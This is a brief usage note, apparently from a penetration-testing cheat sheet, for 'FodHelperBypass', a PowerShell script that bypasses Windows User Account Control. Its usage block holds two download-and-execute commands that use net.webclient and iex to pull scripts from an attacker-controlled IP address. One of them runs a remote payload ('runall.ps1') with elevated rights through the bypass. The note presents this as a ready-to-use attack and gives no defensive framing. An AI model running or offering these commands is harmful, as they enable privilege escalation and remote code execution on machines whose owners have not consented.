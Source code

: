 # Name
FodHelperBypass (Bypass UAC)

## Usage
```
# Load FodHelper into memory
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Using ps_shellcode runner
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

## Source
https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1
